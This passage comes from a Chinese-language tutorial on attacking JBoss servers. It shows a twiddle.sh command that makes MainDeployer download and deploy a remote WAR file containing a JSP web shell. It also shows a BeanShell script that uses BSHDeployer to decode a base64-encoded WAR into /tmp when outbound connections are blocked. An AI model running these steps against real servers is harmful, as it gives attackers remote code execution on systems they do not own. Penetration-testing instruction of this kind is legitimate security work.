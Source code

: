 ```
$ ./twiddle.sh -s scribus invoke jboss.system:service=MainDeployer deploy http://www.redteam-pentesting.de/redteam.war

```

通过下面的URL访问shell：

```
http://scribus:8080/redteam/redteam-shell.jsp

```

#### BSHDeployer

利用RMI攻击需要JBoss应用服务器能够访问远程HTTP服务器。

然而在很多配置中，防火墙不允许JBoss服务器对外发出连接请求：

![enter image description here](http://drops.javaweb.org/uploads/images/fbc28d28ef448e28c8c973bfaf88a8df6c4390cd.jpg)

为了能够在JBoss服务器上安装redteam.war，这个文件需要放在本地。

虽然JBoss不允许直接直接上传文件，但是有BeanShellDeployer，我们可以在远程服务器上创建任意文件。

##### BeanShell

BeanShell是一种运行在JRE上的脚本语言，该语言支持常规的Java语法。可以很快写完，并且不需要编译。

##### BSHDeployer

JBoss服务器中BSHDeployer可以部署BeanShell脚本，它会安装后自动执行。

利用BSHDeployer安装的方法是：

```
createScriptDeployment(String bshScript, String scriptName)

```

##### BeanShell脚本

可以用下面的BeanShell脚本实现把redteam.war放到JBoss服务器上。

```
import java.io.FileOutputStream;
import sun.misc.BASE64Decoder;
// Base64 encoded redteam.war
String val = "UEsDBBQACA[...]AAAAA";
BASE64Decoder decoder = new BASE64Decoder();
byte[] byteval = decoder.decodeBuffer(val);
FileOutputStream fs = new FileOutputStream("/tmp/redteam.war");
fs.write(byteval);
fs.close();

```

变量val中是redteam.war文件的base64编码后的字符串，脚本在tmp目录下生成redteam.war文件，Windows中可以填写C:WINDOWSTEMP。
